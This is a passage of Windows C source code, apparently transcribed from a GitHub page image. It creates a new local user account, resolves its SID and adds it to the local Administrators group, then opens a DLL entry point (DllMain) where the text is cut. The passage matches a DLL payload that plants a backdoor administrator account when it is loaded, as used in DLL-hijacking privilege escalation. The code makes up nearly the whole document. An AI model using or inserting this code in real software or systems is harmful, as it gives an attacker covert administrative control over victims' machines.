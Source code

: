 ```
    ud.usri1_priv        = USER_PRIV_USER;                   // cannot set USER_PRIV_ADMIN on creation
    ud.usri1_flags       = UF_SCRIPT | UF_NORMAL_ACCOUNT;    // must be set
    ud.usri1_script_path = NULL;

    rc = NetUserAdd(
        NULL,            // local server
        1,                // information level
        (LPBYTE)&ud,
        NULL            // error value
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

   _tprintf(_T("NetUserAdd OK\r\n"), rc, rc);

    // Get user SID
    b = LookupAccountName(
        NULL,            // local server
        ud.usri1_name,   // account name
        Sid,             // SID
        &cbSid,          // SID size
        Domain,          // Domain
        &cbDomain,       // Domain size
        &snu             // SID_NAME_USE (enum)
    );

    if (!b) {
        dw = GetLastError();
        _tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
        return dw;
    }

    // Add user to "Administrators" local group
    memset(&gd, 0, sizeof(gd));

    gd.lgrmi0_sid = (PSID)Sid;

    rc = NetLocalGroupAddMembers(
        NULL,                    // local server
        _T("Administrators"),
        0,                        // information level
        (LPBYTE)&gd,
        1                        // only one entry
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

    return 0;
}

//
// DLL entry point.
//

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
```